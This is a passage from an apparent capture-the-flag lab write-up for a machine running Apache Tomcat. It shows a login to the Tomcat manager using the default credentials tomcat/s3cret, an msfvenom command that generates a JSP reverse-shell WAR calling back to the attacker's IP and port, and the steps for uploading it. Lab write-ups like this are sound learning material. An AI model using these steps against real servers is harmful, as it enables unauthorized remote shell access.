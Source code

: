 Allow entering password -> bruteforce attack(test later)

## port 8080 enumeration

Try something few CVE  after observing but all fails

```
1. Not Vulnerable to CVE-2017-12617 
2. Fail CVE-2020-9484 as it doesnot return internal server error
```
Let go and interact with Tomcat

Let first try default password on manager http://YourIp:8080/manager/status and we successfully login with username be `tomcat` and password be `s3cret`

We can do this into 2 ways
1. Do manually uploading and execute
2. Using metasploit framework

## Do manually uploading and execute
Navigate to http://YourIp:8080/manager/html and we can see a place of uploading war file

<img src='/assets/img/Thompson-THM/waruploaded.png' alt=''>

I will use msfvenom to create war file and upload it.After uploading, i will execute it and get a shell

**Creating war file**
Command
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.18.18.117 lport=1234 -f war -o  shell.war
```
Output
```
Payload size: 1087 bytes
Final size of war file: 1087 bytes
Saved as: shell.war
```

**Uploading war file**

Navigate to http://YourIp:8080/manager/html and go to section of `WAR file to deploy`. You will see `Select WAR file to upload` with 2 buttons of Browse... and Deploy.Click Browser and choose your war file and click deploy

After upload it, you will see it in paths with name of that war in Applications.For mine, it was shell.war so name ot be seen ,it will be shell

